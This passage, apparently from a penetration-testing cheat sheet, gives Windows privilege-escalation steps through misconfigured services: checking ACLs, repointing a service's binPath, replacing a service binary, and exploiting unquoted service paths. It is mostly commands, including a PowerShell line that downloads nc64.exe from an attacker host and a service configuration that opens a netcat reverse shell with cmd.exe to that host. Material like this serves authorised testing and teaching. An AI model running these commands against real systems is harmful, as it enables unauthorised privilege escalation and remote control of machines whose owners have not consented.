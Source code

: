 4) Check file/dir ACLs (can we replace the binary?)

- On the binary:
```
icacls "<TARGET_EXE>"
```

- On the parent directories (inheritance may allow write):
```
icacls "<TARGET_DIR>"
```
Look for your user/group having (M) Modify, (W) Write, or (F) Full.

5) Exploitation paths

A. Weak service permissions (change binPath)
- Upload payload if needed (example: host nc64.exe from attacker and download):
```
powershell -nop -c "iwr http://<ATTACKER_IP>/nc64.exe -OutFile C:\Users\Public\nc64.exe"
```
- Repoint the service to your payload via cmd:
```
sc stop <SERVICE>
sc config <SERVICE> binPath= "C:\Windows\System32\cmd.exe /c <PAYLOAD_EXE> -e cmd.exe <ATTACKER_IP> <LPORT>"
sc start <SERVICE>
```
Note: there must be a space after binPath=.

- After shell, restore:
```
sc config <SERVICE> binPath= "<original ImagePath from sc qc>"
```

B. Weak file permissions on service binary (replace binary)
- Backup and replace:
```
copy "<TARGET_EXE>" "C:\Users\Public\orig_<SERVICE>.exe"
copy "<PAYLOAD_EXE>" "<TARGET_EXE>"
```
- Trigger:
```
sc stop <SERVICE>
sc start <SERVICE>
```
- Restore after use:
```
copy "C:\Users\Public\orig_<SERVICE>.exe" "<TARGET_EXE>"
```

C. Unquoted service path (dropper in search order)
- Determine unquoted path and segments from sc qc/reg query (e.g., C:\Program Files\Some App\Service Folder\service.exe).
- Potential search order drop locations (if writable):
  - C:\Program.exe
  - C:\Program Files\Some.exe
  - C:\Program Files\Some App\Service.exe
- Check write perms:
```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Some App"
```
- Drop payload with the correct name into the highest-precedence writable location:
```
copy "<PAYLOAD_EXE>" "C:\Program.exe"
```
- Trigger:
```
sc stop <SERVICE>
sc start <SERVICE>
```